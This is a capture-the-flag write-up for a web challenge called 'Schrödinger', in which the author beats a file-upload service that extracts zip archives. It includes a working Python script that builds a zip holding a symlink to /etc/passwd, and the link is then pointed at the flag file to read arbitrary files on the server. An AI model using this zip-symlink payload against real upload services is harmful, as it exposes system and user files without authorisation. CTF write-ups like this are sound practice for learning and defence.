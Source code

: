 # Web

##  Schrödinger 


### Info

![](screenshots/1.png)
![](screenshots/2.png)

## solution:

this One was a lil easy to solve because i saw this vulnerabilty before so it's website with file-upload function:

we can try to upload php shell or whatever bur it doesnt work because the website  `unzip zip files and show the output of files`

it's just using this script to create a file named for exemple `evil_symlink` that have a symbolic link to the `/etc/passwd` file and zip it 
```python
import zipfile

def compress_file(filename):
    zipInfo = zipfile.ZipInfo(".")
    zipInfo.create_system = 3
    zipInfo.external_attr = 2716663808
    zipInfo.filename = filename
    
    with zipfile.ZipFile('payload.zip', 'w') as zipf:
        zipf.writestr(zipInfo, "/etc/passwd")

filename = 'evil_symlink'

compress_file(filename)
```

when we pass the zip file  to the server , this server doesnt check if the file inside the zip is symLinked to another file so it unzip it and show the content of the`/etc/passwd` :
![](screenshots/3.png)

no we have the user name so just changing the script above to reading this `"/home/copenhagen/flag.txt"`
and we upload the zip file and we git the flag:
![](screenshots/4.png)






